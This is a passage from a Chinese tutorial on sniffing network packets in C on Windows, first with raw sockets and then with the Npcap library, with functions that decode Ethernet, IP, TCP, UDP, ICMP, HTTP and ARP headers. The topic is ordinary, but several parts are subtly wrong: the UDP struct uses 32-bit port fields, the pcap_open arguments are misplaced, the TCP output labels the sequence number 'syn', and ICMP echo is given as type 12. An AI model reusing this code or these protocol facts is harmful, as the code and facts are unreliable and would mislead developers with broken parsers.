}UDPHEADER, * PUDPHEADER;
#pragma pack()
```

当有了结构体的定义部分，则实现对数据包的解析只需要判断数据包的类型并使用不同的结构体对数据包进行解包打印即可，如下是实现数据包解析的完整代码，在代码中分别实现了几个核心函数，其中`printData`函数可以实现对特定内存数据的十六进制格式输出方便检查输出效果，函数`AnalyseRecvPacket_All`用于解析除去`TCP/UDP`格式的其他数据包，`AnalyseRecvPacket_TCP`用于解析`TCP`数据，`AnalyseRecvPacket_UDP`用于解析`UDP`数据，在主函数中通过使用`ip->ipv4_pro`判断数据包的具体类型，并根据类型的不同依次调用不同的函数实现数据包解析。

```c
// 输出数据包
void PrintData(BYTE* lpBuf, int iLen, int iPrintType)
{
  // 16进制
  if (0 == iPrintType)
  {
    for (int i = 0; i < iLen; i++)
    {
      if ((0 == (i % 8)) && (0 != i))
      {
        printf("  ");
      }
      if ((0 == (i % 16)) && (0 != i))
      {
        printf("\n");
      }
      printf("%02x ", lpBuf[i]);

    }
    printf("\n");
  }
  // ASCII编码
  else if (1 == iPrintType)
  {
    for (int i = 0; i < iLen; i++)
    {
      printf("%c", lpBuf[i]);
    }
    printf("\n");
  }
}

// 解析所有其他数据包
void AnalyseRecvPacket_All(BYTE* lpBuf)
{
  struct sockaddr_in saddr, daddr;
  PIPV4HEADER ip = (PIPV4HEADER)lpBuf;
  saddr.sin_addr.s_addr = ip->ipv4_sourpa;
  daddr.sin_addr.s_addr = ip->ipv4_destpa;

  printf("From:%s --> ", inet_ntoa(saddr.sin_addr));
  printf("To:%s\n", inet_ntoa(daddr.sin_addr));
}

// 解析TCP数据包
void AnalyseRecvPacket_TCP(BYTE* lpBuf)
{
  struct sockaddr_in saddr, daddr;
  PIPV4HEADER ip = (PIPV4HEADER)lpBuf;
  PTCPHEADER tcp = (PTCPHEADER)(lpBuf + (ip->ipv4_ver_hl & 0x0F) * 4);
  int hlen = (ip->ipv4_ver_hl & 0x0F) * 4 + tcp->tcp_hlen * 4;

  // 这里要将网络字节序转换为本地字节序
  int dlen = ntohs(ip->ipv4_plen) - hlen;
  saddr.sin_addr.s_addr = ip->ipv4_sourpa;
  daddr.sin_addr.s_addr = ip->ipv4_destpa;

  printf("From:%s:%d --> ", inet_ntoa(saddr.sin_addr), ntohs(tcp->tcp_sourport));
  printf("To:%s:%d  ", inet_ntoa(daddr.sin_addr), ntohs(tcp->tcp_destport));
  printf("ack:%u  syn:%u length=%d\n", tcp->tcp_acknu, tcp->tcp_seqnu, dlen);

  PrintData((lpBuf + hlen), dlen, 0);
}

// 解析UDP数据包
void AnalyseRecvPacket_UDP(BYTE* lpBuf)
{
  struct sockaddr_in saddr, daddr;
  PIPV4HEADER ip = (PIPV4HEADER)lpBuf;
  PUDPHEADER udp = (PUDPHEADER)(lpBuf + (ip->ipv4_ver_hl & 0x0F) * 4);
  int hlen = (int)((ip->ipv4_ver_hl & 0x0F) * 4 + sizeof(UDPHEADER));
  int dlen = (int)(ntohs(udp->udp_hlen) - 8);

  //  int dlen = (int)(udp->udp_hlen - 8);
  saddr.sin_addr.s_addr = ip->ipv4_sourpa;
  daddr.sin_addr.s_addr = ip->ipv4_destpa;
  printf("Protocol:UDP  ");
  printf("From:%s:%d -->", inet_ntoa(saddr.sin_addr), ntohs(udp->udp_sourport));
  printf("To:%s:%d\n", inet_ntoa(daddr.sin_addr), ntohs(udp->udp_destport));

  PrintData((lpBuf + hlen), dlen, 0);
}

int main(int argc, char* argv[])
{
  // 选择网卡,并设置网络为非阻塞模式
  InitAndSelectNetworkRawSocket();

  sockaddr_in RecvAddr = { 0 };
  int iRecvBytes = 0;
  int iRecvAddrLen = sizeof(sockaddr_in);
  DWORD dwBufSize = 12000;
  BYTE* lpRecvBuf = new BYTE[dwBufSize];

  // 循环接收接收
  while (1)
  {
    RtlZeroMemory(&RecvAddr, iRecvAddrLen);
    iRecvBytes = recvfrom(g_RawSocket, (char*)lpRecvBuf, dwBufSize, 0, (sockaddr*)(&RecvAddr), &iRecvAddrLen);
    if (0 < iRecvBytes)
    {
      // 接收数据包解码输出
      // 分析IP包的协议类型
      PIPV4HEADER ip = (PIPV4HEADER)lpRecvBuf;
      switch (ip->ipv4_pro)
      {
      case IPPROTO_ICMP:
      {
                // 分析ICMP
        printf("[ICMP]\n");
        AnalyseRecvPacket_All(lpRecvBuf);
        break;
      }
      case IPPROTO_IGMP:
      {
                // 分析IGMP
        printf("[IGMP]\n");
        AnalyseRecvPacket_All(lpRecvBuf);
        break;
      }
      case IPPROTO_TCP:
      {
        // 分析tcp协议
        printf("[TCP]\n");
        AnalyseRecvPacket_TCP(lpRecvBuf);
        break;
      }
      case IPPROTO_UDP:
      {
        // 分析udp协议
        printf("[UDP]\n");
        AnalyseRecvPacket_UDP(lpRecvBuf);
        break;
      }
      default:
      {
                // 其他数据包
        printf("[OTHER IP]\n");
        AnalyseRecvPacket_All(lpRecvBuf);
        break;
      }
      }
    }
  }

  // 释放内存
  delete[]lpRecvBuf;
  lpRecvBuf = NULL;

  // 关闭套接字
  Sleep(500);
  closesocket(g_RawSocket);
  WSACleanup();
  return 0;
}
```

读者可自行编译并运行上述代码片段，当程序运行后可自行选择希望监控的网卡，当程序中检测到TCP数据包后会输出如下图所示的提示信息，在图中我们可以清晰的看出数据包的流向信息，以及数据包长度数据包内的数据等；



当读者通过使用`Ping`命令探测目标主机时，此时同样可以抓取到`ICMP`相关的数据流，只是在数据解析时并没有太规范导致只能看到简单的流向，当然读者也可以自行完善这段代码，让其能够解析更多参数。



### 18.2 使用NPCAP抓包

NPCAP 库是一种用于在`Windows`平台上进行网络数据包捕获和分析的库。它是`WinPcap`库的一个分支，由`Nmap`开发团队开发，并在`Nmap`软件中使用。与`WinPcap`一样，NPCAP库提供了一些`API`，使开发人员可以轻松地在其应用程序中捕获和处理网络数据包。NPCAP库可以通过`WinPcap API`进行编程，因此现有的WinPcap应用程序可以轻松地迁移到NPCAP库上。

与WinPcap相比，NPCAP库具有更好的性能和可靠性，支持最新的操作系统和硬件。它还提供了对`802.11`无线网络的本机支持，并可以通过`Wireshark`等网络分析工具进行使用。 NPCAP库是在`MIT`许可证下发布的，因此可以在免费和商业软件中使用。

- 下载地址：https://nmap.org/download.html

该工具包分为两部分组成驱动程序及SDK工具包，在使用本库进行抓包时需要读者自行安装对应版本的驱动程序，此处读者使用的版本是`npcap-1.55.exe`当下载后读者可自行点击下一步即可，当安装完成后即可看到如下图所示的提示信息；



当驱动程序安装完成后，读者就可以自行配置开发工具包到项目中，通常只需要将工具包内的`include`及`lib`库配置到项目中即可，如下图所示配置后自行应用保存即可。



接着我们来实现第一个功能，枚举当前主机中可以使用的网卡信息，该功能的实现主要依赖于`pcap_findalldevs_ex()`函数，该函数用于获取当前系统中可用的所有网络适配器的列表。

函数的原型声明如下：

```c
int pcap_findalldevs_ex(const char *source, struct pcap_rmtauth *auth,
                        pcap_if_t **alldevsp, char *errbuf);
```

其中，参数含义如下：

 - source：指定远程接口的IP地址，或者为本地接口传入NULL。
 - auth：一个指向`pcap_rmtauth`结构来指定远程的IP和用户名。
 - alldevsp：一个指向指针，返回主机上可用的设备列表。
 - errbuf：一个用于存储错误信息的缓冲区。

该函数允许开发者通过一个结构来检索所有网络适配器的详细信息。它允许指定一个过滤器，以匹配用户定义的网络适配器和属性。此外，`pcap_findalldevs_ex()`还提供用于存储错误信息的结构体，以便在函数调用失败时提供错误信息。

该函数返回值-1表示失败；否则，返回值为0表示操作成功，并将返回所有可用的网络适配器和它们的详细信息。这些详细信息包括适配器的名称、描述、MAC地址、IP地址和子网掩码等，当读者使用枚举函数结束后需要自行调用`pcap_freealldevs`函数释放这个指针以避免内存泄漏。

以下是pcap_freealldevs函数原型声明：

```c
void pcap_freealldevs(pcap_if_t *alldevs);
```

其中，`alldevs`参数是指向`pcap_if_t`类型结构体的指针，该类型结构体记录了当前主机上所有可用的网络接口的详细信息。`pcap_freealldevs()` 会释放传入的`pcap_if_t`型链表，并将所有元素删除。

调用`pcap_freealldevs()`函数时需要传入之前通过`pcap_findalldevs()`或`pcap_findalldevs_ex()`函数获取到的的指向链表结构的指针作为参数。

当有了这两个函数作为条件，那么实现枚举网卡则变得很简单了，如下代码所示则是使用该工具包实现枚举的具体实现流程，读者可自行编译测试。

```c
#include <iostream>
#include <winsock2.h>
#include <Windows.h>
#include <string>
#include <pcap.h>

#pragma comment(lib,"ws2_32.lib")
#pragma comment(lib, "packet.lib")
#pragma comment(lib, "wpcap.lib")

using namespace std;

// 输出线条
void PrintLine(int x)
{
  for (size_t i = 0; i < x; i++)
  {
    printf("-");
  }
  printf("\n");
}

// 枚举当前网卡
int enumAdapters()
{
  pcap_if_t *allAdapters;    // 所有网卡设备保存
  pcap_if_t *ptr;            // 用于遍历的指针
  int index = 0;
  char errbuf[PCAP_ERRBUF_SIZE];

  /* 获取本地机器设备列表 */
  if (pcap_findalldevs_ex(PCAP_SRC_IF_STRING, NULL, &allAdapters, errbuf) != -1)
  {
    PrintLine(100);
    printf("索引 \t 网卡名 \n");
    PrintLine(100);

    /* 打印网卡信息列表 */
    for (ptr = allAdapters; ptr != NULL; ptr = ptr->next)
    {
      ++index;
      if (ptr->description)
      {
        printf("[ %d ] \t [ %s ] \n", index - 1, ptr->description);
      }
    }
  }

  /* 不再需要设备列表了，释放它 */
  pcap_freealldevs(allAdapters);
  return index;
}
int main(int argc, char* argv[])
{
  enumAdapters();
  system("pause");
  return 0;
}
```

编译并以管理员身份运行程序，则读者可看到如下图所示输出结果，其中第一列为网卡索引编号，第二列为网卡名称；



当有了网卡编号后则读者就可以对特定编号进行抓包解析了，抓包功能的实现依赖于`pcap_open()`函数，该函数用于打开一个指定网络适配器并开始捕获网络数据包，函数的原型声明如下所示：

```c
pcap_t *pcap_open(const char *source, int snaplen, int flags, int read_timeout, 
     struct pcap_rmtauth *auth, char *errbuf);
```

其参数含义如下：

 - source：要打开的网络接口的名称或者是保存在`pcap_open_live()`中获取的名称。
 - snaplen：设置捕获数据包的大小。
 - flags：设置捕获数据包的模式，在`promiscuous`控制器模式或非`promiscuous`模式下捕获。
 - read_timeout：设置阻塞读函数的超时时间以毫秒为单位。
 - auth：一个指向`pcap_rmtauth`结构，指定远程的IP和用户名。
 - errbuf：一个用于存储错误信息的缓冲区。

该函数返回一个指向`pcap_t`类型的指针，该类型结构提供了与网络适配器通信的接口，可以用于捕获数据包、关闭网络适配器及其他操作，读者在调用`pcap_open()`函数时，需要指定要打开的网络适配器的名称`source`，如果需要设置为混杂模式的话，需要设置`flags`参数为`PCAP_OPENFLAG_PROMISCUOUS`，此外`snaplen`参数用于设置捕获数据包的大小，`read_timeout`参数用于设置阻塞读函数的超时时间，`auth`参数则用于指定远程的`IP`和用户名，`errbuf`参数用于存储错误信息。如果该函数返回空，则表示未成功打开指定的网络适配器。

另一个需要注意的函数是`pcap_next_ex()`该函数用于从打开的指定网络适配器中读取下一个网络数据包，通常情况下此函数需要配合`pcap_open()`一起使用，其原型声明：

```c
int pcap_next_ex(pcap_t *p, struct pcap_pkthdr **pkt_header, const u_char **pkt_data);
```

参数含义如下：

 - p：指向`pcap_t`类型结构体的指针，代表打开的网络适配器。
 - pkt_header：一个指向指向`pcap_pkthdr`类型的指针，该类型结构体包含有关当前数据包的元数据，例如时间戳、数据包长度、捕获到数据包的网络适配器接口等。
 - pkt_data：一个指向被捕获的数据包的指针。

它返回以下三种返回值之一：

 - 1：成功捕获一个数据包，`pkt_header`和`pkt_data`则指向相关信息；
 - 0：在指定的时间内未捕获到任何数据包；
 - -1：发生错误，导致无法从网络适配器读取数据包。此时可以在`errbuf`参数中查找错误信息。

使用`pcap_next_ex()`函数时，需要提供一个指向`pcap_t`类型结构体的指针`p`用于确定要从哪个网络适配器读取数据包。如果读取数据包时成功，则将包的元数据存储在传递的`pcap_pkthdr`指针中，将指向捕获数据包的指针存储在`pkt_data`指针中。如果在指定的时间内未捕获到任何数据包，则函数返回0。如果在读取数据包时发生任何错误，则函数返回-1，并在`errbuf`参数中提供有关错误的详细信息。

当读者理解了上述两个关键函数的作用则就可以实现动态抓包功能，如下代码中的`MonitorAdapter`函数则是抓包的实现，该函数需要传入两个参数，参数1是需要抓包的网卡序列号，此处我们就使用7号，第二个参数表示需要解码的数据包类型，此处我们可以传入`ether`等用于解包，当然该函数还没有实现数据包的解析功能，这些功能的实现需要继续完善。

```c
#include <iostream>
#include <winsock2.h>
#include <Windows.h>
#include <string>
#include <pcap.h>

#pragma comment(lib,"ws2_32.lib")
#pragma comment(lib, "packet.lib")
#pragma comment(lib, "wpcap.lib")

using namespace std;

// 选择网卡并根据不同参数解析数据包
void MonitorAdapter(int nChoose, char *Type)
{
  pcap_if_t *adapters;
  char errbuf[PCAP_ERRBUF_SIZE];

  if (pcap_findalldevs_ex(PCAP_SRC_IF_STRING, NULL, &adapters, errbuf) != -1)
  {
    // 找到指定的网卡
    for (int x = 0; x < nChoose - 1; ++x)
      adapters = adapters->next;

    // PCAP_OPENFLAG_PROMISCUOUS = 网卡设置为混杂模式
    // 1000 => 1000毫秒如果读不到数据直接返回超时
    pcap_t * handle = pcap_open(adapters->name, 65534, 1, PCAP_OPENFLAG_PROMISCUOUS, 0, 0);

    if (adapters == NULL)
      return;

    // printf("开始侦听: % \n", adapters->description);
    pcap_pkthdr *Packet_Header;    // 数据包头
    const u_char * Packet_Data;    // 数据本身
    int retValue;
    while ((retValue = pcap_next_ex(handle, &Packet_Header, &Packet_Data)) >= 0)
    {
      if (retValue == 0)
        continue;

      // printf("侦听长度: %d \n", Packet_Header->len);
      if (strcmp(Type, "ether") == 0)
      {
        PrintEtherHeader(Packet_Data);
      }
      if (strcmp(Type, "ip") == 0)
      {
        PrintIPHeader(Packet_Data);
      }
      if (strcmp(Type, "tcp") == 0)
      {
        PrintTCPHeader(Packet_Data);
      }
      if (strcmp(Type, "udp") == 0)
      {
        PrintUDPHeader(Packet_Data);
      }
      if (strcmp(Type, "icmp") == 0)
      {
        PrintICMPHeader(Packet_Data);
      }
      if (strcmp(Type, "http") == 0)
      {
        PrintHttpHeader(Packet_Data);
      }
      if (strcmp(Type, "arp") == 0)
      {
        PrintArpHeader(Packet_Data);
      }
    }
  }
}

int main(int argc, char* argv[])
{
  MonitorAdapter(7,"ether");
  system("pause");
  return 0;
}
```

当读者有了上述代码框架，则下一步就是依次实现`PrintEtherHeader`,`PrintIPHeader`,`PrintTCPHeader`,`PrintUDPHeader`,`PrintICMPHeader`,`PrintHttpHeader`,`PrintArpHeader`等函数，这些函数接收原始数据包`Packet_Data`类型，并将其转换为对应格式的数据包输出给用户，接下来我们将依次实现这些功能。

**PrintEtherHeader 解码以太网层数据包**

以太网数据包是一种在以太网上发送的数据包格式。它通常包括以太网头部和以太网数据部分。以下是它的各个部分的介绍：

- 以太网头部：包括目标MAC地址、源MAC地址以及类型/长度字段。目标MAC地址和源MAC地址是6个字节的二进制数，分别表示数据包的目标和来源。类型/长度字段用于表示数据部分的长度或指定所使用的网络层协议。如果类型/长度字段小于等于1500，则指示数据部分的长度；否则，它表示使用的协议类型。

- 以太网数据部分：包括所有的上层网络协议标头和数据。以太网数据部分的长度通常大于46个字节，并且最大长度为1500个字节。

以太网数据包通常用于在局域网上进行通信。使用以太网帧作为数据包格式，将数据包发送到这个网络上的所有设备。然后，目标设备根据目标MAC地址，接收和处理这些帧，其它设备会忽略这些帧。在以太网数据包中，目标MAC地址指的是数据包要发送到的目标设备的唯一MAC地址，而源MAC地址则指的是发送此消息的设备的MAC地址。

```c
// 解码数据链路数据包 数据链路层为二层,解码时只需要封装一层ether以太网数据包头即可.
#define hcons(A) (((WORD)(A)&0xFF00)>>8) | (((WORD)(A)&0x00FF)<<8)

void PrintEtherHeader(const u_char * packetData)
{
  typedef struct ether_header
  {
    u_char ether_dhost[6];    // 目标地址
    u_char ether_shost[6];    // 源地址
    u_short ether_type;       // 以太网类型
  } ether_header;

  struct ether_header * eth_protocol;
  eth_protocol = (struct ether_header *)packetData;

  u_short ether_type = ntohs(eth_protocol->ether_type);  // 以太网类型
  u_char *ether_src = eth_protocol->ether_shost;         // 以太网原始MAC地址
  u_char *ether_dst = eth_protocol->ether_dhost;         // 以太网目标MAC地址

  printf("类型: 0x%x \t", ether_type);
  printf("原MAC地址: %02X:%02X:%02X:%02X:%02X:%02X \t",
    ether_src[0], ether_src[1], ether_src[2], ether_src[3], ether_src[4], ether_src[5]);
  printf("目标MAC地址: %02X:%02X:%02X:%02X:%02X:%02X \n",
    ether_dst[0], ether_dst[1], ether_dst[2], ether_dst[3], ether_dst[4], ether_dst[5]);
}
```

由于以太网太过于底层，所以解析以太网我们只能得到一些基本的网卡信息，如下图所示；



**PrintIPHeader 解码IP层数据包**

IP（Internet Protocol）数据包是在TCP/IP（传输控制协议/互联网协议）协议栈中的第三层。它通常包括IP头部和数据部分两部分。

IP头部通常包括以下内容：

 - 版本号：表示所使用的IP协议版本号。
 - 头部长度：表示整个IP头部的长度。TCP/IP协议中的长度都以字节（byte）为单位计数。
 - 总长度：表示整个IP数据包的长度，包括头部和有效负载部分。
 - TTL：生存时间，用于限制路由器转发该数据包的次数。
 - 协议：表示上层使用的协议类型。
 - 源IP地址：发送该数据包的设备的IP地址。
 - 目标IP地址：发送该数据包的目标设备的IP地址。
 - 数据部分则是上层协议中传输的实际数据。

IP数据包是在网络层传输的，它的主要功能是为互联网中的各种应用程序之间提供包传输服务。它使用IP地址来确定数据包从哪里发出，以及数据包应该被路由到达目标设备。

在接收到IP数据包时，网络设备首先检查数据包头的目标IP地址，然后使用路由表来找到传输该数据包所需的下一个节点（下一跳），并将数据包传递到该节点。如果某个路由器无法将数据包传递到下一个节点，则该数据包将被丢弃。每个节点都会检查数据包的TTL值，并将其减少1。如果TTL值变为0，则数据包会被丢弃，以防止数据包在网络中循环。

```c
// 解码IP数据包，IP层在数据链路层的下面, 解码时需要+14偏移值, 跳过数据链路层。
void PrintIPHeader(const u_char * packetData)
{
  typedef struct ip_header
  {
    char version : 4;
    char headerlength : 4;
    char cTOS;
    unsigned short totla_length;
    unsigned short identification;
    unsigned short flags_offset;
    char time_to_live;
    char Protocol;
    unsigned short check_sum;
    unsigned int SrcAddr;
    unsigned int DstAddr;
  }ip_header;

  struct ip_header *ip_protocol;

  // +14 跳过数据链路层
  ip_protocol = (struct ip_header *)(packetData + 14);
  SOCKADDR_IN Src_Addr, Dst_Addr = { 0 };

  u_short check_sum = ntohs(ip_protocol->check_sum);
  int ttl = ip_protocol->time_to_live;
  int proto = ip_protocol->Protocol;

  Src_Addr.sin_addr.s_addr = ip_protocol->SrcAddr;
  Dst_Addr.sin_addr.s_addr = ip_protocol->DstAddr;

  printf("源地址: %15s --> ", inet_ntoa(Src_Addr.sin_addr));
  printf("目标地址: %15s --> ", inet_ntoa(Dst_Addr.sin_addr));

  printf("校验和: %5X --> TTL: %4d --> 协议类型: ", check_sum, ttl);
  switch (ip_protocol->Protocol)
  {
  case 1: printf("ICMP \n"); break;
  case 2: printf("IGMP \n"); break;
  case 6: printf("TCP \n");  break;
  case 17: printf("UDP \n"); break;
  case 89: printf("OSPF \n"); break;
  default: printf("None \n"); break;
  }
}
```

针对IP层数据包的解析可能会较为复杂，因为`IP`协议上方可以包含`ICMP,IGMP,TCP,UDP,OSPF`等协议，在运行程序后读者会看到如下图所示的具体信息；



**PrintTCPHeader 解码TCP层数据包**

TCP（Transmission Control Protocol）层数据包是在TCP/IP（传输控制协议/互联网协议）协议栈中的第四层。它包括TCP头部和数据部分两个部分。

TCP头部通常包括以下内容：

 - 源端口号：表示发送该数据包的应用程序的端口号。
 - 目的端口号：表示接收该数据包的应用程序的端口号。
 - 序列号：用于将多个数据包排序，确保它们在正确的顺序中到达接收方应用程序。
 - 确认号：用于确认接收方已经成功收到序列号或最后一个被成功接收的数据包。
 - ACK和SYN标志：这些是TCP头部中的标志位，用于控制TCP连接的建立和关闭。
 - 窗口大小：用于控制数据流发送的速率，并确保不会发送太多的数据包，导致网络拥塞。
 - 校验和：用于校验TCP头部和数据部分是否被损坏或篡改。
 - 数据部分则是上层应用程序传递到TCP层的应用数据。

TCP是一个面向连接的协议，因此在发送数据之前，TCP会先在发送方和接收方之间建立连接。该连接建立的过程包括三次握手（three-way handshake）过程，分别是客户端发起连接请求、服务器发回确认、客户端再次发送确认。完成连接后，TCP协议根据确认号和序列号来控制数据包的传输次序和有效性（如ACK报文的确认和重传消息），以提供高效的数据传输服务。

当TCP数据包到达目标设备后，TCP层将在接收方重新组装TCP数据，将TCP报文分割成应用层可用的更小的数据块，并将其发送到目标应用程序。如果发送的TCP协议数据包未被正确地接收，则TCP协议将重新尝试发送丢失的数据包，以确保数据的完整性和正确性。

```c
// 解码TCP数据包，需要先加14跳过数据链路层, 然后再加20跳过IP层。
void PrintTCPHeader(const unsigned char * packetData)
{
  typedef struct tcp_header
  {
    short SourPort;                 // 源端口号16bit
    short DestPort;                 // 目的端口号16bit
    unsigned int SequNum;           // 序列号32bit
    unsigned int AcknowledgeNum;    // 确认号32bit
    unsigned char reserved : 4, offset : 4; // 预留偏移

    unsigned char  flags;               // 标志 

    short WindowSize;               // 窗口大小16bit
    short CheckSum;                 // 检验和16bit
    short surgentPointer;           // 紧急数据偏移量16bit
  }tcp_header;

  struct tcp_header *tcp_protocol;
  // +14 跳过数据链路层 +20 跳过IP层
  tcp_protocol = (struct tcp_header *)(packetData + 14 + 20);

  u_short sport = ntohs(tcp_protocol->SourPort);
  u_short dport = ntohs(tcp_protocol->DestPort);
  int window = tcp_protocol->WindowSize;
  int flags = tcp_protocol->flags;

  printf("源端口: %6d --> 目标端口: %6d --> 窗口大小: %7d --> 标志: (%d)",
    sport, dport, window, flags);

  if (flags & 0x08) printf("PSH 数据传输\n");
  else if (flags & 0x10) printf("ACK 响应\n");
  else if (flags & 0x02) printf("SYN 建立连接\n");
  else if (flags & 0x20) printf("URG \n");
  else if (flags & 0x01) printf("FIN 关闭连接\n");
  else if (flags & 0x04) printf("RST 连接重置\n");
  else printf("None 未知\n");
}
```

针对TCP的解析也较为复杂，这是因为TCP协议存在多种状态值，如`PSH、ACK、SYN、URG、FIN`和`RST`这些都是`TCP`报文段中用于标识不同信息或状态的标志位。这些TCP标志位的含义如下：

 - PSH（Push）：该标志位表示接收端应用程序应立即从接收缓存中读取数据。通常在发送方需要尽快将所有数据发送给接收方时使用。
 - ACK（Acknowledgment）：该标志位表示应答。用于确认已经成功接收到别的TCP包。在TCP连接建立完成后，所有TCP报文段都必须设置ACK标志位。
 - SYN（Synchronous）：该标志位用于建立TCP连接。指示请求建立一个连接，同时序列号以随机数ISN开始。发送SYN报文的一端会进入SYN_SENT状态。
 - URG（Urgent）：该标志位表示紧急指针有效。它用于告知接收端在此报文段中存在紧急数据，紧急数据应该立即送达接收端的应用层。
 - FIN（Finish）：此标志用于终止TCP连接。FIN标志位被置位的一端表明它已经发送完所有数据并要求释放连接。
 - RST（Reset）：该标志用于重置TCP连接。当TCP连接尝试建立失败，或一个已关闭的套接字收到数据，都会发送带RST标志的数据包。

这些标志位的设置和使用可以帮助TCP在应用层和网络层之间进行可靠的通信，保证数据的传输和连接的建立以及关闭可以正确完成，我们工具同样可以解析这些不同的标志位情况，如下图所示；



**PrintUDPHeader 解码UDP层数据包**

UDP（User Datagram Protocol）层数据包是在TCP/IP（传输控制协议/互联网协议）协议栈中的第四层。它比TCP更简单，不保证数据包的位置和有效性，也不进行连接的建立和维护。UDP数据包仅包含UDP头部和数据部分。

UDP头部包括以下内容：

 - 源端口号：表示发起该数据包的应用程序的端口号。
 - 目的端口号：表示接收该数据包的应用程序的端口号。
 - 数据长度：表示数据包中包含的数据长度。
 - 校验和：用于校验UDP头部和数据部分是否被损坏或篡改。
 - 数据部分和TCP层数据包类似，是上层应用程序传递到UDP层的应用数据。

UDP协议的优点是传输开销小，速度快，延迟低，因为它不进行高负载的错误检查，也不进行连接建立和维护。但这也意味着数据包传输不可靠，不保证数据传输的完整性和正确性。如果未能正确地接收UDP数据包，则不会尝试重新发送丢失的数据包。UDP通常用于需要快速、简单、低延迟的应用程序，例如在线游戏、视频和音频流媒体等。

```c
// UDP层与TCP层如出一辙,仅仅只是在结构体的定义解包是有少许的不同而已.
void PrintUDPHeader(const unsigned char * packetData)
{
  typedef struct udp_header
  {
    uint32_t sport;   // 源端口
    uint32_t dport;   // 目标端口
    uint8_t zero;     // 保留位
    uint8_t proto;    // 协议标识
    uint16_t datalen; // UDP数据长度
  }udp_header;

  struct udp_header *udp_protocol;
  // +14 跳过数据链路层 +20 跳过IP层
  udp_protocol = (struct udp_header *)(packetData + 14 + 20);

  u_short sport = ntohs(udp_protocol->sport);
  u_short dport = ntohs(udp_protocol->dport);
  u_short datalen = ntohs(udp_protocol->datalen);

  printf("源端口: %5d --> 目标端口: %5d --> 大小: %5d \n", sport, dport, datalen);
}
```

针对UDP协议的解析就变得很简单了，因为UDP是一种无状态协议所以只能得到源端口与目标端口，解析效果如下图所示；



**PrintICMPHeader 解码ICMP层数据包**

ICMP（Internet Control Message Protocol）层数据包是在TCP/IP协议栈中的第三层。它是一种控制协议，用于网络通信中的错误报告和网络状态查询。ICMP数据包通常不携带应用数据或有效载荷。

ICMP数据包通常包括以下类型的控制信息：

 - Echo Request/Reply: 用于网络连通性测试，例如ping命令（12/0）
 - Destination unreachable: 该类型的ICMP数据包用于向发送者传递对目标无法到达的消息（3/0、3/1、3/2、3/3、3/4、3/5、3/6、3/7、3/8、3/9、3/10）
 - Redirect: 用于告知发送方使用新的路由器来发送数据（5/0、5/1、5/2）
 - Time exceeded: 用于向发送方报告基于TTL值无法到达目的地，表示跃点数超过了最大限制（11/0、11/1）
 - Parameter problem: 用于向发送者报告转发器无法处理IP数据包中的某些字段（12/0）

ICMP数据包还用于其他用途，例如Multicast Listener Discovery（MLD）和Neighbor Discovery Protocol（NDP），用于组播和IPv6网络通信中。

ICMP数据报通常由操作系统或网络设备自动生成，并直接发送给操作系统或网络设备。然后，它们可以通过网络分析工具进行检测和诊断，以确定网络中的错误或故障。

```c
// 解码ICMP数据包，在解包是需要同样需要跳过数据链路层和IP层, 然后再根据ICMP类型号解析, 常用的类型号为`type 8`它代表着发送和接收数据包的时间戳。
void PrintICMPHeader(const unsigned char * packetData)
{
  typedef struct icmp_header {
    uint8_t type;        // ICMP类型
    uint8_t code;        // 代码
    uint16_t checksum;   // 校验和
    uint16_t identification; // 标识
    uint16_t sequence;       // 序列号
    uint32_t init_time;      // 发起时间戳
    uint16_t recv_time;      // 接受时间戳
    uint16_t send_time;      // 传输时间戳
  }icmp_header;

  struct icmp_header *icmp_protocol;

  // +14 跳过数据链路层 +20 跳过IP层
  icmp_protocol = (struct icmp_header *)(packetData + 14 + 20);

  int type = icmp_protocol->type;
  int init_time = icmp_protocol->init_time;
  int send_time = icmp_protocol->send_time;
  int recv_time = icmp_protocol->recv_time;
  if (type == 8)
  {
    printf("发起时间戳: %d --> 传输时间戳: %d --> 接收时间戳: %d 方向: ",
      init_time, send_time, recv_time);

    switch (type)
    {
    case 0: printf("回显应答报文 \n"); break;
    case 8: printf("回显请求报文 \n"); break;
    default:break;
    }
  }
}
```

针对ICMP协议的解析也很简单在抓包时我们同样只能得到一些基本的信息，例如发送时间戳，传输时间戳，接收时间戳，以及报文方向等，这里的方向有两种一种是0代表回显应答，而8则代表回显请求，具体输出效果图如下所示；



**PrintHttpHeader 解码HTTP层数据包**

HTTP（Hypertext Transfer Protocol）层数据包是在TCP/IP协议栈中的第七层，它主要用于Web应用程序中的客户机和服务器之间的数据传输。HTTP数据包通常包括HTTP头部和数据部分两个部分。

HTTP头部通常包括以下内容：

 - 请求行：用于描述客户机发起的请求。
 - 响应行：用于描述服务器返回的响应。
 - 头部字段：用于向请求或响应添加额外的元数据信息，例如HTTP版本号、日期、内容类型等。
 - Cookie：用于在客户端和服务器之间来保存状态信息。
 - Cache-Control：用于客户端和服务器之间控制缓存的行为。
 - 数据部分是包含在HTTP请求或响应中的应用数据。

HTTP协议的工作方式是客户端向服务器发送HTTP请求，服务器通过HTTP响应返回请求结果。HTTP请求通常使用HTTP方法，如GET、POST、PUT、DELETE等，控制HTTP操作的类型和行为。HTTP响应通常包含HTTP状态码，如200、404、500等，以指示客户端请求结果的状态。

在实际的网络通信中，HTTP层数据包的格式和内容通常由应用程序或网络设备生成和分析，例如Web浏览器和Web服务器。

```c
// 解码HTTP数据包，需要跳过数据链路层, IP层以及TCP层, 最后即可得到HTTP数据包协议头。
void PrintHttpHeader(const unsigned char * packetData)
{
  typedef struct tcp_port
  {
    unsigned short sport;
    unsigned short dport;
  }tcp_port;

  typedef struct http_header
  {
    char url[512];
  }http_header;

  struct tcp_port *tcp_protocol;
  struct http_header *http_protocol;

  tcp_protocol = (struct tcp_port *)(packetData + 14 + 20);
  int tcp_sport = ntohs(tcp_protocol->sport);
  int tcp_dport = ntohs(tcp_protocol->dport);

  if (tcp_sport == 80 || tcp_dport == 80)
  {
    // +14 跳过MAC层 +20 跳过IP层 +20 跳过TCP层
    http_protocol = (struct http_header *)(packetData + 14 + 20 + 20);
    printf("%s \n", http_protocol->url);
  }
}
```

针对HTTP协议的解析同样可以，但由于HTTP协议已经用的很少了所以这段代码也只能演示，在实战中一般会使用HTTPS，如下则是一个HTTP访问时捕获的数据包；



**PrintArpHeader 解码ARP层数据包**

ARP（Address Resolution Protocol）层数据包是在TCP/IP协议栈中的第二层。ARP协议主要用于将网络层地址（如IP地址）映射到数据链路层地址（如MAC地址）。

ARP数据包通常包括以下内容：

 - ARP请求或响应：ARP请求用于获取与IP地址关联的MAC地址，而ARP响应用于提供目标MAC地址。
 - 发送者的MAC地址：发送ARP请求或响应的设备的MAC地址。
